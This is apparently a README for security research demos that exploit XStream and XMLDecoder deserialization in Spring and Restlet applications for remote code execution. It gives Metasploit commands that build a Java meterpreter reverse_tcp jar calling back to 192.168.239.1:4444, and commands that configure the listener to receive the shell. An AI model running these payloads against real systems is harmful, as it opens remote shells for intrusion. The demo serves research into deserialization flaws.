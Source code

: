 ## Demos

* SpringXStream: SpringMVC RESTful application using XStream and RCE exploits
* RestletXMLDecoder: Restlet application using object representation and RCCE exploits

## Using Metasploit
The demos have been weaponized to use meterpreter sessions. Meterpreter have been modified to run the payload at object instantiation time. Once your MSF installation has been modified to use the modified meterpreter session (download it from https://github.com/pwntester/metasploit-javapayload), run the following command to generate the malicious jar.

./msfpayload java/meterpreter/reverse_tcp LHOST=192.168.239.1 LPORT=4444 R > /Users/alvaro/Sites/met.jar
./msfpayload java/meterpreter/reverse_tcp LHOST=192.168.239.1 LPORT=4444 R > /Users/alvaro/Sites/met239.jar

The meterpreter needs to connect back to 192.168.239.1:4444. The meterpreter jar can be found at http://localhost/~alvaro/met.jar

Metasploit listener needs to be configured on 0.0.0.0:4444:
./msfconsole
use exploit/multi/handler
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit

